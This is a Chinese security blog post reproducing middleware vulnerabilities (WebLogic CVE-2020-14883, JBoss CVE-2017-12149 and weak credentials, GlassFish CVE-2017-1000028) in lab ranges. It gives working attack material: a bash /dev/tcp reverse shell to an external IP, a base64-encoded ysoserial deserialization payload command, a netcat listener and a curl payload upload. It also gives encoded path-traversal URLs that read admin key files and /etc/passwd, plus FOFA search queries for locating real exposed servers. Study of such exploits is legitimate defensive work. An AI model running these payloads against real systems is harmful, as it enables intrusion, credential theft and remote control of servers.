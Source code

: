 #  中间件安全-CVE漏洞复现-Weblogic+JBoss+GlassFish   
原创 兰陵猪猪哼  小黑子安全   2024-04-08 07:54  
  
服务攻防测试流程：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVrbIkokbwdY8govdtJticWfvlzKYtx9ibHPYOKfjZn3WfKU89nqY2J7UQ/640?wx_fmt=png&from=appmsg "")  
  
使用  
vulfocus  
靶场：  
  
案例演示：  
中间件-Weblogic-工具  
梭哈  
  
探针默认端口：7001，Weblogic是Oracle公司推出的J2EE应用服务器  
  
使用  
vulfocus  
靶场复现漏洞  
  
漏洞：weblogic-cve_2020_14883  
  
启动环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEV6v4koc50KZqnP63wfkeZUyOAibsQuOo96dgOmvrCeruVerVLNPyBadQ/640?wx_fmt=png&from=appmsg "")  
  
工具：  
https://github.com/ghealer/GUI_Tools  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVtMWVAMtq52hST5adY0naAXoRmYBsfuRP9syDfUR7o6tmhF3psd3KxQ/640?wx_fmt=png&from=appmsg "")  
  
使用工具检测漏洞，在工具输入漏洞网址  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVH8MeCYJ2HmUymoPTliaHQYFQPLWHNI7tMToOlXNyLiadGUCPuGnGicd8Q/640?wx_fmt=png&from=appmsg "")  
  
执行命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVaw4d4kia4UVyMnfrl8cVpUSEpeLqyx0LjFwbhqdicjIoal0FhMOOA8BQ/640?wx_fmt=png&from=appmsg "")  
  
使用  
vulhub  
靶场：  
  
案例演示：中间件-JBoos-工具脚本梭哈  
  
Jboss通常占用的端口是1098，1099，4444，4445，8080，8009，8083，8093这几个，Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。  
  
漏洞：  
jboss
web  
控制台  
   
弱口令  
  
fofa  
语法：  
"JBoss"
&& title=="Welcome to JBoss&trade;"  
  
使用  
fofa  
搜索到资产，打开网站，进入  
jboss web   
控制台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVKrIPlx153N4S3EqRsbW1vbI2PBLjXASEBm0ia0zmelT2qib6auI8mSoA/640?wx_fmt=png&from=appmsg "")  
  
需要登录，使用弱口令：  
admin/admin   
成功登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVGSoxAxic32K6FQbOKaHic2JuCN9jJwl0RKIE4hJdtbvibQN29HSY6OnOw/640?wx_fmt=png&from=appmsg "")  
  
漏洞：  
JBoss  
中间件  
   
CVE-2017-12149  
  
使用  
vulhub  
靶场开启环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVtnNwvdpXMZExTZicqnTBXRmt91Z4cYG0OGnmcZF6BgN4gmxImZr9dHQ/640?wx_fmt=png&from=appmsg "")  
  
我们使用  
bash  
来反弹  
shell  
，但由于  
Runtime.getRuntime().exec()  
中不能使用管道符等  
bash  
需要的方法，我们需要用进行一次编码。  
  
命令：  
bash -i
>& /dev/tcp/43.134.241.1  
93  
/5566
0>&1  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVRPsqoerGSmMjFQLWF9hFzDKnanoTeticZAYS9Ub3KuL3bic8YpoXpjBw/640?wx_fmt=png&from=appmsg "")  
  
使用工具：  
https://github.com/frohoff/ysoserial  
    
来生成反弹  
shell  
的  
poc  
文件  
  
使用工具执行命令：  
java -jar
ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzQuMjQxLjEzOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}"
> poc.ser  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVgtCEBBYF4y0TE0LcHvtia3c12cxQa6zFkm0A5V4tLSV56qu2Cp4jVuA/640?wx_fmt=png&from=appmsg "")  
  
在工具目录下生成一个  
poc.esr  
文件，这个文件就是  
java  
编写的执行反弹  
shell  
命令的文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVPe2HXiaDE4efrnwAVficJVKWccHYHv9EcBDoJTibAIft6108ibD8KZ6EiaA/640?wx_fmt=png&from=appmsg "")  
  
服务器开启监听端口  
5566  
  
命令：  
nc -lvvp 5566  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVFx58P0f0V8BVC8kSJBOZpHsTXJLTQIMia0aTibRtsDXH9Rquibp2vjxgQ/640?wx_fmt=png&from=appmsg "")  
  
然后在当前目录执行命令将  
poc  
文件上传到目标目录  
  
命令：curl  
http://  
192.168.163.128  
:  
8080  
/invoker/readonly  
 --data-binary @poc.ser  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVzSJ6ic3612YB8VkXBbOlglcr5ibEoqa1UUibV94lY6JL8shS7eXZl50Gw/640?wx_fmt=png&from=appmsg "")  
  
服务器成功获取  
shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVhWH9T44ictTeC9q18caENwHticZfEZeicorpaG7oa6QCVwbZnL7tPe7Ew/640?wx_fmt=png&from=appmsg "")  
  
案例演示：GlassFish 任意文件读取漏洞（  
CVE-2017-1000028  
）  
  
探针默认端口：4848，GlassFish 是一款强健的商业兼容应用服务器  
  
影响版本  
  
Oracle
GlassFish Server Open Source Edition 4.1  
版本  
  
fofa  
搜索语法：  
"glassfish"
&& port="4848"  
  
复现漏洞路径：  
  
读密码：/theme/META-INF/%c0.%c0./%c0.%c0./%c0.%c0./%c0.%c0./%c0.%c0./domains/domain1/config/admin-keyfile  
  
读windows文件：/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini  
  
读linux文件：/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd  
  
开启漏洞环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVsdAH82taiaWbl5USSbw5OnWCs92afQ8Gf87yFhaVHYtOA1ZkZHc9icTw/640?wx_fmt=png&from=appmsg "")  
  
读取密码文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEV8CC5KHxQuAgbjoYkrT0VKmDgjDZeBekLUaQA9Cya1wLfZc134xrVHg/640?wx_fmt=png&from=appmsg "")  
  
读取  
linux  
敏感文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVrJvT9e5E4QkwrbmevSwZfAaYRd76LU6bYjW4fYqj8iaUddP2CTPwKQw/640?wx_fmt=png&from=appmsg "")  
  
网络安全技术交流群：wx加我好友，备注“进群”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b9ibb0kbHCImS2ldibAAaXVDGRKsYsrwDjQmnYKiauv2Vz2eknbKu3CoVokgYhb09xbGUpBxLqSVsdJBDmic1oiclmA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
QQ群：708769345  
  
  
